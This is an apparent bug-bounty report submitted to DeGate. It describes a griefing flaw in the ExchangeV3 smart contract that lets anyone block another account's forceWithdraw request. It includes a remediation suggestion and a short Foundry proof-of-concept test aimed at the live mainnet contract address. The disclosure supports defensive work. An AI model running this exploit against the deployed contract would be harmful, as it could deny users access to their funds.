 # A malicious user can DoS force withdraw request for any legitimate user

Submitted about 1 month ago by @CanYeRest298751 (Whitehat) for BOOSTED: DeGate Bug Bounty

Report ID: #25892

Report type: Smart Contract

Has PoC? Yes

Target: https://etherscan.io/address/0x9C07A72177c5A05410cA338823e790876E79D73B#code

# Impacts
- Griefing (e.g. no profit motive for an attacker, but damage to the users or the protocol)

# Details

Description

Bug Description

A malicious user can request a forceWithdraw request on behalf of another accountID. This is correctly handled by the prover, and the request will be invalidated when processed by the operator. However in the meantime, the user with the account accountID cannot request a forceWithdraw, since only one forceWithdraw can be requested at a time.

# Impact
A malicious user can prevent a legitimate one to request forceWithdraw for her funds. Thereby denying the access to funds if operator is also malicious. This can be used to keep big accounts inside the platform, and is a big centralization risk

# Risk Breakdown
Difficulty to Exploit: Easy Weakness: CVSS2 Score:

# Recommendation
Also include the from variable in the mapping to check if forceWithdraw has been requested, since from can be invalid at request time.

# References
## Proof of concept
import as a test in a forge project and run forge test -vvvv
```
// SPDX-License-Identifier: UNLICENSED
pragma solidity ^0.8.13;

import "forge-std/Test.sol";

interface IExchangeV3 {
    function forceWithdraw(
        address from,
        address tokenId,
        uint32 accountId
    ) external payable;
}

contract CounterTest is Test {
    IExchangeV3 public exchangeV3 =
        IExchangeV3(0x9C07A72177c5A05410cA338823e790876E79D73B);

    address usdc = 0xA0b86991c6218b36c1d19D4a2e9Eb0cE3606eB48;

    address attacker = address(1);
    address legitimate_user = address(2);

    uint32 accountId = 1;

    function setUp() public {}

    function testForceWithdrawalDos() public {
        //This withdraw is bound to fail because accountId does not belong to address attacker
        vm.prank(attacker);
        exchangeV3.forceWithdraw{value: 1e18}(attacker, usdc, accountId);

        //This withdraw request can succeed, because this is the right value for from
        vm.prank(legitimate_user);
        exchangeV3.forceWithdraw{value: 1e18}(legitimate_user, usdc, accountId);
    }
}
```
